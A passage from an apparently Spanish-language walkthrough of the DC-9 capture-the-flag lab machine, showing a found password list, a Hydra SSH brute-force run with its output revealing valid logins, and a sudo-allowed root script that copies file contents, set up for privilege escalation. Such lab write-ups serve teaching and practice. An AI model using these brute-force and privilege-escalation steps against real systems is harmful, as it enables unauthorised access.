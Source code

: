 
El usuario ``chandlerb`` era un rabbit hole pero ``janitor`` tenía un directorio oculto dentro de su carpeta de home llamado ``.secrets-for-putin`` jua jua. Ese directorio contenía un archivo llamado `` passwords-found-on-post-it-notes.txt`` con el siguiente contenido:

```console
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```
---

De nuevo a ``Hydra`` con los nuevos passwords:

> **`` hydra -L user -P password_2 10.0.0.151 ssh``**

```console
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-24 20:57:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 102 login tries (l:17/p:6), ~7 tries per task
[DATA] attacking ssh://10.0.0.151:22/
[22][ssh] host: 10.0.0.151   login: fredf   password: B4-Tru3-001
[22][ssh] host: 10.0.0.151   login: joeyt   password: Passw0rd
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-24 20:57:48
```
Se encuentran dos usuarios más:
* Usuario: fredf   password: **B4-Tru3-001**
* Usuario: joeyt   password: **Passw0rd**

---

Finalmente, el usuario fredf arroja un resultado al correr el comando ``sudo -l``:

```console
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

Se puete correr el comando ``/opt/devstuff/dist/test/test``, el contenido del script de Python que se puede ejecutar es el siguiente:

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```